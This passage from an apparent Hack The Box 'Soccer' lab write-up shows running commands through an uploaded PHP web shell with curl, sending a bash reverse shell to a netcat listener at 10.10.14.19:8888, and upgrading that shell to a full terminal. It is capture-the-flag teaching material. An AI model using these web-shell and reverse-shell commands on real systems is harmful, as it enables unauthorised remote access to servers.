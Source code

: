 Combining this with `curl` I can now execute commands on the system:

```bash
$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Starting a listener on my local machine on port `8888` with netcat with `nc -lnvp 8888` and triggering the reverse shell by sending a bash reverse shell to the webserver with curl.

```bash
curl http://soccer.htb/tiny/uploads/cmd.php \
	--data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.19/8888 0>&1'" -i
```

> Note the use `--data-urlencode` parameter in this instance. This is important otherwise, the payload won’t be encoded correctly.
>

![Untitled](../../../assets/2023-06-13-hack-the-box-soccer/Untitled8.png)

The `curl` command will hang for a while, but eventually, I can see the reverse shell coming into my `nc` listener. Next, I’ll upgrade my shell to a proper `tty`. This will make the reverse shell behave like an actual terminal. And prevent me from accidentally closing the session.

```bash
.www-data@soccer:~/html/tiny/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:~/html/tiny/uploads$ ^Z
[1]  + 10873 suspended  nc -lnvp 8888

┌──(vagrant㉿kali)-[/vagrant]
└─$ stty raw -echo; fg                                                                                                                         148 ⨯ 1 ⚙
[1]  + 10873 continued  nc -lnvp 8888

www-data@soccer:~/html/tiny/uploads$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads$
```
